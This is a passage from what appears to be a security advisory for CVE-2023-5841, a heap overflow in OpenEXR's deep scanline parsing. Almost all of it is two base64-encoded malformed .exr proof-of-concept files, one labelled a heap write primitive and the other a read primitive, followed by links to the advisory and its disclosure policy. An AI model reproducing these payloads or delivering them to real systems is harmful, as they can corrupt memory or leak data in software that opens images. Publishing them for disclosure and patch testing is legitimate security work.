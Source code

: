 Multiple .exr files which triggers the above described heap overflow can be found below.

Write primitive from heap overflow:

[expand]

```
di8xAQIAAABjb21wcmVzc2lvbgBjb21wcmVzc2lvbgABAAAAAHR5cGUAc3RyaW5nAA0AAABkZWVw
c2NhbmxpbmUAdmVyc2lvbgBpbnQABAAAAAEAAABjaGFubmVscwBjaGxpc3QAJQAAAEEAAAAAAAAA
AAABAAAAAQAAAAAArq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq4AAAAAAAEAAAAAAAAAAQAAAAAAAAAA/wAAAAAAAAAAADoAAAA6AAAA////AP//
/wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////
AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A
////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD/
//8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP//
/wD///8Arq4AAK6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq4=
```

[/expand]

Alternatively, a read primitive can be achieved leveraging the same bug with
the following PoC:

[expand]

```
di8xAQIAAABnAAARASYmJiYmJiYmJian5EBnr2S1zEBAQEBAQEBAzn0nDH6dyiPFuFBpSulKZm5u
bm5ubgD/JiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmfv8mJtkmJiYmJiYmJiYmJiYmJiZ2ZXJz
aW9uMV4CMTLU1NQAAAAAAF8AALuAwg0DvhAIrqqbhONsH////////wAAjlVUgD4AJiYmJiYmJiYm
JiYmJgAAY2hyY29tcHJlc3Npb24AY29tcHJlc3Npb24AAQAAAAD/AAAmJiZubm5ubm5ubm5ubm5u
bm70qM084T4YPdT8YuIUBldXbmRvd0NlbnRlcgB2MmYACAAAAHYyZgFibGVlaWVlAAB0eXBlAHN0
cmluZwBfAAAAZGVlcHNjYW5saW5lAHIAf///AW9hdG1hdGljCXRpZXMwAAAB3gBjaABjaGxpc3QA
HAAAABAAAAAB/wAAABAAaQAAAQAA/mcAAP5nAAByAH///wFvYXRtYXQAAAABaWMJdGllczAAAAEA
Y2gAYwAAAP90AAAACABra2trazsra2tra2tr5Zcp6ib09XPqBi0xMZc5Wv9mbG9hdP////////8+
65He/kO+tTgXdw9VKwUAAADyAAAAfFUj49bgAAAA5eXl5eXla2UTBAAAAAAAAOXl5f//////////
5XYvMQHl5eXl5QH/dGltLzEB5eXl5eUB/3RpbWVjb3ljb2Rl5eXl5eXl///////////ldi8xAeXl
5eXlAf90aW1lY29kZf//AQBmbG9hdHZlY3RvcgAAAAAA//EAHWlldz4+Pj4+AOXl5eXl5eXl5eXl
5eVkaXNwbGF5V2luAABjaGFubmVscwBjaGxpc3QAPAAAABAAAAAAAAAAKgABAAAAAQAAAABkZWxp
AgAAAGNobGlzdHJlqRAAAAAAAABjaGxpc3RyZXNzaW9pdG9yAXcAAAAAAGNo/wAACE1NTXYyZE1N
TU30sAAAAAAAAGtleWNvZGXl5eXl5eX//////3L/AQD/AAAAnW94MTJpAAB0eXBlAAB0aWNpdGll
c+Xl5eXl5eXl5XYyZnBsYXlXaXlwZQBtMzNkAWV0aXKU4VQAAAAAAAAdAAAAaXKUbGWSNGF0M2Rw
cmVjaHKUbGVtNDRkAP8AAACdb3gxMmkCAAB5cGUAbTMzZAFldGlylGtlbTQ0ZH8AHQAAAGlylGxl
djNpdDNkcHJlY2hyb21hb3gxMmkAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAABGgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
yyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZGQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAABAAAAAAAANAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAc3RyaQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

[CVE-2023-5841]: https://takeonme.org/cves/CVE-2023-5841.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/